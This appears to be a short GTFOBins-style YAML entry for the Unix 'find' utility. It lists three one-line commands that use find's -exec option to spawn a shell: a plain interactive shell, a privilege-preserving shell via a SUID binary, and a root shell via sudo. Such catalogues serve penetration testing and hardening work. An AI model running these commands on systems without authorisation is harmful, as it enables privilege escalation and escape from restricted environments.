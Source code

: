 ```yaml
---
functions:
  execute-interactive:
    - code: find . -exec /bin/sh \; -quit
  suid-enabled:
    - code: ./find . -exec /bin/sh -p \; -quit
  sudo-enabled:
    - code: sudo find . -exec /bin/sh \; -quit
---
```

